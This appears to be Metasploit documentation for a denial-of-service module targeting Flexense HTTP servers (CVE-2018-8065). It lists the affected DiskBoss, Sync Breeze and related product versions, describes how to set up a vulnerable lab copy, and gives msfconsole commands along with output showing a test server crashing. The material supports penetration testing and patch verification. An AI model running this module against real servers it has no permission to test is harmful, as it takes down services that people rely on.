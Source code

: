 ## Description
This module triggers a Denial of Service vulnerability in the Flexense Enterprise HTTP server. It is possible to trigger 
a write access memory vialation via rapidly sending HTTP requests with large HTTP header values.  


## Vulnerable Application 
According To publicly exploit Disclosure of Flexense HTTP Server v10.6.24
Following list of softwares are vulnerable to Denial Of Service.
read more : http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-8065

	
DiskBoss Enterprise    <= v9.0.18
Sync Breeze Enterprise <= v10.6.24
Disk Pulse Enterprise  <= v10.6.24
Disk Savvy Enterprise  <= v10.6.24
Dup Scout Enterprise   <= v10.6.24
VX Search Enterprise   <= v10.6.24


**Vulnerable Application Link** 
http://www.diskboss.com/downloads.html
http://www.syncbreeze.com/downloads.html
http://www.diskpulse.com/downloads.html
http://www.disksavvy.com/downloads.html
http://www.dupscout.com/downloads.html


## Vulnerable Application Installation Setup.
All Flexense applications that are listed above can be installed by following these steps.

Download Application : ```https://github.com/EgeBalci/Sync_Breeze_Enterprise_10_6_24_-DOS/raw/master/syncbreezeent_setup_v10.6.24.exe```

**And Follow Sync Breeze Enterprise v10.6.24 Setup Wizard**

After the installation navigate to: ```Options->Server```

Check the box saying: ```Enable web server on port:...```

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use auxiliary/dos/http/flexense_http_server_dos`
  4. Do: `set rport <port>`
  5. Do: `set rhost <ip>`
  6. Do: `check`
```
[+] 192.168.1.20:80 The target is vulnerable.
```
  7. Do: `run`
  8. Web server will crash after 200-1000 request depending on the OS version and system memory.

## Scenarios
**TESTED AGAINST WINDOWS 7/10**
```
msf5 > use auxiliary/dos/http/flexense_http_server_dos 
msf5 auxiliary(dos/http/flexense_http_server_dos) > set rhost 192.168.1.27
rhost => 192.168.1.27
msf5 auxiliary(dos/http/flexense_http_server_dos) > set rport 80
rport => 80
msf5 auxiliary(dos/http/flexense_http_server_dos) > run

[*] 192.168.1.20:80 - Triggering the vulnerability
[+] 192.168.1.20:80 - DoS successful 192.168.1.20 is down !
[*] Auxiliary module execution completed

```
